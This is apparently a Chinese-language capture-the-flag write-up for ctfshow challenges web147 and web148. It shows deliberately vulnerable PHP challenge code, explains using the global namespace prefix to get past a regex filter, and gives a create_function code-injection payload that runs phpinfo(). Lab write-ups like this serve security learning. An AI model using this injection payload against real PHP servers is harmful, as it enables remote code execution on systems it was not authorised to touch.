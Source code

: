 同上

# web147

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 02:04:38

*/



highlight_file(__FILE__);

if(isset($_POST['ctf'])){
    $ctfshow = $_POST['ctf'];
    if(!preg_match('/^[a-z0-9_]*$/isD',$ctfshow)) {
        $ctfshow('',$_GET['show']);
    }

}
```

> php里默认命名空间是\，所有原生函数和类都在这个命名空间中。 普通调用一个函数，如果直接写函数名function_name()调用，调用的时候其实相当于写了一个相对路径； 而如果写\function_name()这样调用函数，则其实是写了一个绝对路径。 如果你在其他namespace里调用系统类，就必须写绝对路径这种写法

> `\`是全局命名空间，由于命名空间问题，如果要绝对调用一个函数，例如system，那么就要写成`\system`

```
?show=;};phpinfo();/*
ctf=\create_function
```

[PHP create_function()代码注入](https://my.oschina.net/huyex/blog/2885273)

![image-20221006160341150](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210061603232.png?x-oss-process=hzy)

# web148

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-19 03:52:11

*/



include 'flag.php';
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(preg_match("/[A-Za-z0-9_\%\\|\~\'\,\.\:\@\&\*\+\- ]+/",$code)){
        die("error");
    }
```